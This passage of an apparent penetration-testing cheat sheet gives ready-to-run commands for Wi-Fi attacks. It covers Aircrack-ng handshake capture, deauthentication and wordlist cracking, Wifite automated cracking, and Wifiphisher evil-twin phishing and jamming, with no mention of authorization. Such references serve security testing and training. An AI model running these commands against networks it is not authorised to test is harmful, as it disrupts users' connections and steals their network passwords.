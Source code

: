 
## 8. Aircrack-ng: Wi-Fi Cracking Suite
Aircrack-ng is a suite of tools for monitoring, attacking, testing, and cracking Wi-Fi networks.

**Steps:**
1. **Enable Monitor Mode:**
   ```sh
   sudo airmon-ng
   sudo airmon-ng start wlan0
   sudo airmon-ng check kill
   ```
2. **Scan Available Networks:**
   ```sh
   sudo airodump-ng wlan0mon
   ```
3. **Capture Handshakes:**
   ```sh
   sudo airodump-ng --bssid [Target_BSSID] -c [Channel] -w capture wlan0mon
   sudo aireplay-ng --deauth 10 -a [Target_BSSID] wlan0mon
   ```
4. **Crack the Captured Handshake:**
   ```sh
   sudo aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
   ```
5. **Disable Monitor Mode:**
   ```sh
   sudo airmon-ng stop wlan0mon
   sudo service NetworkManager start
   ```


## 9. Wifite: Automated Wi-Fi Cracking Tool
```sh
sudo wifite
sudo wifite --wps-only
```


## 10. Wifiphisher: Wi-Fi Phishing Attack Tool
Wifiphisher is a tool for conducting phishing attacks against Wi-Fi networks. It creates rogue access points to trick users into revealing passwords.

**Basic Syntax:**
```sh
sudo wifiphisher [options]
```
**Usage Examples:**
```sh
sudo wifiphisher --essid [Network_Name]
sudo wifiphisher --phishing-page simple_login
sudo wifiphisher --deauth-alldevices
sudo wifiphisher --evil-twin
sudo wifiphisher -v
sudo wifiphisher -aI wlan0 -jI wlan1
```
  - `-aI`: Interface for rogue AP.
  - `-jI`: Interface for jamming legitimate AP.
